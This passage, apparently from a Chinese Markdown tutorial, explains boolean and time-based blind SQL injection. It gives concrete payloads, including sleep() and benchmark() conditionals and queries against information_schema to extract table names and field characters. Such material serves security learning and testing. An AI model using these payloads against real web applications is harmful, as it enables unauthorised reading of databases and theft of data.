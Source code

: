     ###### 求指定表中某字段的数量
    
    ``SELECT * from users WHERE id = 1 AND (select count(username) from users) = 13``
    
    ###### 求字段长度
    
    ``SELECT * from users WHERE id = 1 AND ASCII(SUBSTR((select username from users  limit 0,1),4,1))``
    
    ###### 求字段名
    
    ``SELECT * from users WHERE id = 1 and ASCII(SUBSTR((select username from users  limit 0,1),1,1))  = 68``



#### 时间盲注

时间盲注又称延迟注入，是一种盲注的手法, 提交对执行时间敏感的函数sql语句，通过执行时间的长短来判断是否执行成功，比如:正确的话会导致时间很长，错误的话会导致执行时间很短。~~SQLMAP、穿山甲、胡萝卜等主流注入工具可能检测不出~~，只能手工检测，或利用脚本程序跑出结果。

时间盲注主要用到`sleep()`函数，除此之外还有`benchmark()`

时间盲注比布尔盲注难度稍高 ，关键在于不论你怎么输入就是不报错

时间盲注的sql语句很好理解，如

##### sleep(seconds)

- seconds: sleep的秒数

`id= 1’ or sleep(3) %23`

如果这个时候直接服务器过了三秒才反应，那么就存在时间注入

也可以添加if语句，控制if第一个参数

`id= 1’ or if(1,sleep(3),0) %23`

如果某一个条件正确就延迟三秒，如果错误就返回0 (也就是if第一个参数为1)     

具体的注入语句示例如下

`id= 1’ or if((select table_name from information_schema.tables where table_schema=database() limit 0,1),sleep(3),0) %23`

##### benchmark(count, expr)

- count: 执行次数（必须为正整数）
- expr: 要重复执行的表达式（通常是一个计算密集型操作）

MySQL 会计算 expr 指定的表达式 count 次，返回结果始终是 0

`select if(1=1,benchmark(10000000,md5('test')),0)`

如果条件为真，则执行大量计算导致延迟；为假则立即返回。

例如探测数据库名长度

`select if(length(database())=8, benchmark(10000000,md5('test')), 0)`


后面的盲注过程与布尔盲注类似
